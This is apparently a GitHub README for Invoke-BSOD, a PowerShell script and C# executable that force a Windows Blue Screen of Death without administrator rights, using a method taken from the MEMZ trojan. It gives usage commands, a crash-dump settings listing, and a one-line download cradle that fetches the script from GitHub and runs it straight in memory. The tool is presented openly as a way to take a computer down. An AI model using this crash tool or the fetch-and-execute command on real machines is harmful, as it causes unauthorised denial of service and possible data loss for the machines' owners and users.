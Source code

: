 # Invoke-BSOD
For when you want a computer to be done - without admin!

BSOD method from here: https://github.com/Leurak/MEMZ/blob/master/WindowsTrojan/Source/Destructive/KillWindows.c#L10-L18

### Invoke-BSOD.ps1

A PowerShell script to induce a Blue Screen of Death (BSOD) without admin privileges. Also enumeartes Windows crash dump settings.

This is a standalone script, **it does not depend on any other files here.**

#### Invoke-BSOD
Invokes the Blue Screen of Death.

#### Get-DumpSettings
Returns the current crash dump settings so you'll know what type of dump you are going to generate, and where it is going to be.

#### Usage:
```
PS>Import-Module .\Invoke-BSOD.ps1
PS>Get-DumpSettings

  Name                           Value
  ----                           -----
  DumpFileLocation               C:\WINDOWS\MEMORY.DMP
  OverwritePrevious              True
  AutoReboot                     True
  AutoDeleteWhenLowSpace         False
  SystemLogEvent                 True
  CrashDumpMode                  Automatic Memory Dump
  
PS>Invoke-BSOD
```
#### OR...
```
PS>IEX((New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/peewpw/Invoke-BSOD/master/Invoke-BSOD.ps1'));Invoke-BSOD
```
### BSOD.exe

A compiled executable that also creates a Blue Screen of Death.

Useful when you don't have PowerShell?

### Program.cs

The C# source behind BSOD.exe
